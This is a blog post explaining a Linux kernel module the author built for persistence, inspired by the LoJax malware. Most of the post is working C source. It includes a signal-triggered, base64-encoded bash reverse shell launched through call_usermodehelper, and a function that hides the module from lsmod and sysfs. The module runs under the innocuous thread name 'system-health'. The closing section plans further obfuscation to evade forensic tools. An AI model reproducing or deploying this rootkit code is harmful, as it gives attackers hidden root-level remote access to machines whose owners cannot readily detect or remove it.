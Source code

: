 ```yaml
---
 title: "Persistance with kernel modules"
 layout: "post"
 categories: "Malware"
 tags: ["Linux", "Signals", "Modules", "Persistance"]
---
```



In this post, I'm going to explain the idea behind this module, its applications, and some interesting things I discovered while working on it. Then, I'll show you a PoC of this file, followed by some additional considerations and some few upgrades I think could be interesting to implement.

## Before things went downhill

Chronologically, this module is the first piece of "malware" I've created — although it's not really malware, but more of a file meant to achieve persistence. Still, I was excited about showing the RAT.

Leaving aside this small intro to the post, let's dive into why and how this came to be.

A couple of months ago, I was looking into some of the craziest APTs and came across APT28, specifically their LoJax tool. If you haven't heard of it, that's perfectly normal — LoJax is software used to maintain remote access on target systems. On [MITRE](https://attack.mitre.org/software/S0397/), there's a [document](https://web-assets.esetstatic.com/wls/2018/09/ESET-LoJax.pdf) that explains how it works.

It got me thinking. After doing some research, I found out that the file runs during boot — but on Windows. Back then, I hadn't really worked much with Windows APIs, so I decided to try something similar on Linux.

That's where I ran into my second problem: I didn't know much about UEFI. After exploring several ways to build a kernel module for persistence, I came to the conclusion that I needed a module that:

1. Could stay hidden
2. Had some kind of “beacon” or access point to retrieve a shell
3. Gave the person some way to execute commands    

To make all this work, I'm going to use signals, kernel threads, and the kernel module itself.

## How the Code Works

This time, I won't explain every line of code — instead, I'll just describe what each block does to avoid getting too specific — because I think it would be better if some of the things that aren't immediately clear in the code (whether they're about structures or the module itself) were looked up in a Linux module guide. Back then, I checked out [this one](https://sysprog21.github.io/lkmpg/), but there are plenty of others that will probably work just as well for you.

### Code Analysis

The first part we find in the code (apart from the libraries we need to import) is some of the module's global variables, among which we can find both the environment variables and the variable responsible for storing the state that stops the program.

```c
static int stop_signal = 0;
static char *envp[] = { "HOME=/", "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/snap/bin"};
```

Next, we come across the block that allows us to create a connection. We simply call the `call_usermodehelper()` function and pass in the arguments we defined earlier. Among them is the command, which is essentially a reverse shell encoded in base64 (I've included the payload below so you can see what it does).

IMPORTANT NOTE: We can use the `"UMH_NO_WAIT"` parameter in the `usermodehelper` function to avoid errors when the connection ends.

```c
static void send_message_printk_kernel(void){
    printk(KERN_INFO "[system-health] Signal SIGUSR2.\n");
    char *argv[] = { "/bin/bash", "-c", "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTAyNSAwPiYx | base64 -d | bash", NULL};
    call_usermodehelper(argv[0], argv, envp, UMH_NO_WAIT);
}
```

![[Pasted image 20250510143149.png]]

The next block of code is a bit more complex. First, we make the SIGUSR1 and SIGUSR2 signals available to be read. Then, we have an "infinite" loop that checks whether the stop variable has been activated, so that if it is, the program stops. With this in place, we start iterating until we find a signal in the signal queue. When the received signal is the one we're expecting (this can be done with a program, but I was doing it manually using the `kill -SIGUSRx <PID>` command to send the signals), it reads it and, depending on which signal we receive, either stops the module and thread, or simply runs the reverse shell part.

One important thing to note is the use of `flush_signals()`, which is there to clear the signal queue. If you want to know a bit more about this, I'll leave a section at the very end where I explain, roughly, how I understood it. Finally, if we exit the loop, it means we've sent a SIGUSR1 signal to stop the program.

```c
static int test_loop(void *data) {
    allow_signal(SIGUSR1);
    allow_signal(SIGUSR2);

    while (!kthread_should_stop()) {
        if (stop_signal || signal_pending(current)) {
            if (sigismember(&current->signal->shared_pending.signal, SIGUSR1) == 1){
                printk(KERN_INFO "[system-health] Signal SIGUSR1.\n");
                printk(KERN_INFO "[system-health] Signal received, stopping thread...\n");
                break;
            }else if (sigismember(&current->signal->shared_pending.signal, SIGUSR2) == 1){
                send_message_printk_kernel();
            }
            flush_signals(current);
        }
        ssleep(5);
    }

    printk(KERN_INFO "[system-health] Deleting module...\n");
    stop_signal = 0;
    module_put(THIS_MODULE);
    return 0;
}
```

This piece of code is used to send a stop signal to the thread. In addition, we need to add a new variable outside of the functions because we need it to be visible to all of them in order to manage information related to the thread.

```c
static void send_stop_signal(void) {
    if (task) {
        send_sig(SIGUSR1, task, 1);
        stop_signal = 1;
    }
}
```

We use this function to remove the module from the kernel's "basic" information lists — for example, if we run `lsmod`, this module won't be listed.

`NOTE: Something to keep in mind is that we won't be able to manually remove the module when we no longer want it. We place blind trust in the fact that the module "isn't there" once we send a SIGUSR1 signal.`

```c
static void hide_module(void) {
    list_del(&THIS_MODULE->list);
    kobject_del(&THIS_MODULE->mkobj.kobj);
    printk(KERN_INFO "[system-health] Hidden module.\n");
}
```

Next, we have the function that runs right when the module is loaded (we can tell because it uses the `__init` attribute). Here, we simply start the thread, give it a name, and hide it using the function we mentioned earlier.

```c
static int __init systemhealth_init(void) {
    printk(KERN_INFO "[system-health] Module loaded.\n");

    task = kthread_run(test_loop, NULL, "system-health");
    if (IS_ERR(task)) {
        printk(KERN_ERR "[system-health] Error creating the thread\n");
        return PTR_ERR(task);
    }

    hide_module();
    return 0;
}
```

This function is used to shut down the module. We stop the thread if it's still running.

```c
static void __exit systemhealth_exit(void) {
    printk(KERN_INFO "[system-health] Deleting module...\n");

    send_stop_signal();

    if (task) {
        kthread_stop(task);
        printk(KERN_INFO "[system-health] Thread stopped successfully.\n");
    }
}
```

`IMPORTANT NOTE: Don't forget to include some of the required kernel functions for everything to work, like "module_init" and "module_exit". Also, it's highly recommended to include the "LICENSE" line, since in some cases, accessing certain kernel functionalities requires declaring that the module is under a "GPL" license.`

```c
[...]
MODULE_LICENSE("GPL");
[...]
```

## Proof of Concept

To do this, we simply compile it using the typical Makefile we usually find or use for these kinds of modules.

![Kernel module make command](../assets/posts/module-kernel-make.png)

Once started with the `insmod system-health.ko` command, we can see that it has created a thread, which appears as a separate process, different from a typical one. Finally, we can carry out the steps we mentioned earlier regarding the thread.

![Kernel module PoC](../assets/posts/module-kernel-poc.png)

## Some Improvements and Additional Considerations

This module is fairly simple and can end up creating a rather "impractical" form of persistence, since by itself it doesn’t serve much purpose beyond privilege escalation. You’d typically need help from other files to, for example, create a backdoor that would later allow you to establish persistence as the root user.

Even so, I think it’s a module that looks quite promising and could be useful in certain cases. While working on it, I was left wanting to improve a few aspects of the module, including:

- Creating an encryption system for data transmission.
- Further obfuscating the code to avoid detection by forensic tools.
- Removing all lines that print to `dmesg` (such as `printk`, which I mostly used for debugging).
- Better encrypting the payload that runs the command through `call_usermodehelper()`.

## Final Thoughts

Although this module didn't quite follow the path I originally intended when I started looking into the LoJax software, I'm really satisfied with how I adapted my approach and shifted my perspective. I realized that trying to recreate software likely developed by people with far more knowledge and time than I have can turn out to be much more difficult and complex than I expected.

Still, it’s made me want to keep exploring more of these kinds of “shadow geniuses”.
